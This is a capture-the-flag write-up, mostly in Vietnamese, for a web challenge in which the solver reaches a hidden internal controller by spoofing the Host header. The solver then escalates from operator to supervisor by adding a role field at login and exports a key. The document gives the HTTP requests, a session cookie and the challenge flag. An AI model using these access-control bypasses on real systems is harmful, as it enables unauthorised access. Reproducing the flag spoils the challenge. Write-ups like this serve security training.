





---
{
  title: switchboard,
  date: 2026-11-09,
  ctf: CSCTF 2026,
  category: web,
  difficulty: Bronze 2,
  tags:
    [
      Broken Access Control,
      Mass Assignment,
      Auth Bypass,
      Header Spoofing,
      Host Header,
      Virtual Host Routing
    ]
}
---

# Đề bài
The Vardanne Joint Operations Directorate, coordinating Vardanne's part in the Operation Dawn coalition, runs an old voice exchange whose public board shows the state of its trunk circuits. The duty desk reaches a separate exchange controller over the internal trunk, and that controller can export the current trunk crypto key, but only to a rostered supervisor.

Reach the controller and export the key. Start your own instance from this page and work only against the address it gives you.

Flag format: `CSCTF{...}`
# Solution
Truy cập challenge:

F12 để đọc source code, thấy `/static/switchboard.js` có để lại hint của tác giả
```javascript
/* VJOD Exchange line-status board. Refreshes the circuit table from the public
 * status API and shows the exchange endpoints the NOC has configured. */
...
// Exchange controller endpoint, as configured by the NOC. Shown for reference
// only; the browser cannot reach it from here (separate trunk, different host),
// so the live figures below are read from the public status API instead.
...
```
Hint nói rằng endpoint này không truy cập được trực tiếp từ browser vì dùng host khác. Vì vậy mình thử đặt header `Host` thành tên đó để xem server có định tuyến request sang controller không. `Burp` gửi request đến cùng địa chỉ challenge (`Target: http://w03.ctf.chronos-security.ro:34168`) nhưng đổi thành `Host: exch-ctl.vjod.internal`. Server nhận header đó và trả trang controller.


Vậy giờ ta gửi request `POST /auth` trước để lấy về operator session, với body có key là `username`

-> Cookie session: 
```HTTP
Cookie: ctl_sid=eyJvcGVyYXRvciI6IkRyYWtpZTE0Iiwicm9sZSI6Im9wZXJhdG9yIn0.avE-3A.0isFx3WaAW5mHR-heKO-m_1BZw4; HttpOnly; Path=/; SameSite=Lax
```
Tiếp đến gửi request dến `GET /operators` với header trên. Payload:
```HTTP
GET /operators HTTP/1.1
Host: exch-ctl.vjod.internal
Content-Type: application/json 
Cookie: ctl_sid=eyJvcGVyYXRvciI6IkRyYWtpZTE0Iiwicm9sZSI6Im9wZXJhdG9yIn0.avE-3A.0isFx3WaAW5mHR-heKO-m_1BZw4; HttpOnly; Path=/; SameSite=Lax
Connection: keep-alive
Content-Length: 0


```
-> Bpdy của response
```json
{
  "operators": [
    {
      "callsign": "EX-01",
      "desk": "Duty supervisor",
      "name": "R. Antonescu",
      "on_duty": true,
      "role": "supervisor"
    },
    {
      "callsign": "EX-04",
      "desk": "Trunk desk 1",
      "name": "M. Ilves",
      "on_duty": true,
      "role": "operator"
    },
    {
      "callsign": "EX-07",
      "desk": "Trunk desk 2",
      "name": "D. Varga",
      "on_duty": true,
      "role": "operator"
    },
    {
      "callsign": "EX-09",
      "desk": "Radio patch desk",
      "name": "S. Kerr",
      "on_duty": true,
      "role": "operator"
    },
    {
      "callsign": "EX-12",
      "desk": "Trunk desk 1",
      "name": "A. Lindqvist",
      "on_duty": false,
      "role": "operator"
    },
    {
      "callsign": "EX-15",
      "desk": "Duty supervisor",
      "name": "T. Novak",
      "on_duty": false,
      "role": "supervisor"
    }
  ],
  "role": "operator",
  "you": "Drakie14"
}
```
Nhận thấy `Duty supervisor` cần role `supervisor`, nhưng role mặc định của session của ta là `operator`
-> Cần phải đăng kí lại session mới với body: `{"username":"Drakie14","role":"supervisor"}`

Ta có session cookie mới, giờ chỉ cần dùng session này gửi request `GET /export/trunk-key` thì sẽ có được flag

-> Flag:
`CSCTF{zaNkWid0KcR75sjYowqeMoEx} `
